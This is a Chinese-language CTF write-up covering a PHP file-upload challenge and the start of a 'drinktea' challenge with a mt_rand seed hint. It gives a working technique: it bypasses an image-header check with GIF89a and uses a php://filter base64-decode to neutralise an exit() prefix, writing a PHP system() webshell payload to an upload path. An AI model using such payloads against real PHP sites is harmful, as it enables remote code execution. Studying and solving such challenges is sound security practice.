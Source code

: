 ```
    file_put_contents('/tmp/'.$_COOKIE['path'],$file_data);
    $file_type = exif_imagetype('/tmp/'.$_COOKIE['path']);
    if($file_type != "GIF" && $file_type != "PNG"){
        die('nonono');
    }
}else{
    echo "I need data";
}
if(isset($_POST['filename'])){
    file_put_contents($filename,$safe_header.$file_data);
} else {
    echo "I need name";
}
show_source(__FILE__);
?>
```

首先是文件头检测，这个只需要带上GIF89a就能绕过

第二步就是死亡绕过，exit()，绕过方法就是通过php://filter的base64-decode将死亡函数变成phpexit

> base64是八位一组解码，所以需要补齐

构造base64

> *base64_encode("<?php echo system("ls /");?>");*
>
> PD9waHAgZWNobyBzeXN0ZW0oImxzIC8iKTs/Pg==

data=GIF89aaaaPD9waHAgZWNobyBzeXN0ZW0oImxzIC8iKTs/Pg==&filename=php://filter/write=convert.base64-decode/resource=./upload/huang/1.php

摆了，传不上去



## drinktea

> hint: an4er说想吃双皮奶，你能帮帮他吗？环境每隔30分钟重置；你知道f4tb3e在syc的B站号上分享了什么吗

![image-20221121232046862](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211212320250.png?x-oss-process=hzy)

首先先注册一个号登陆进去

![image-20221121232126550](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211212321860.png?x-oss-process=hzy)

反馈页面看到hint

![image-20221121232251577](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211212322679.png?x-oss-process=hzy)

![image-20221121232324381](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211212323436.png?x-oss-process=hzy)

```

<!-- 其实这个反馈界面还在调试阶段捏，我前几天上班摸鱼了…… -->
<?php
//真的随机吗？
$seed = file_get_contents("/seed");

mt_srand($seed);
mt_rand();//   == 1567320364
mt_rand();
mt_rand();
mt_rand();
mt_rand();
mt_rand();
$code = md5(mt_rand());
echo file_get_contents("random.php");
```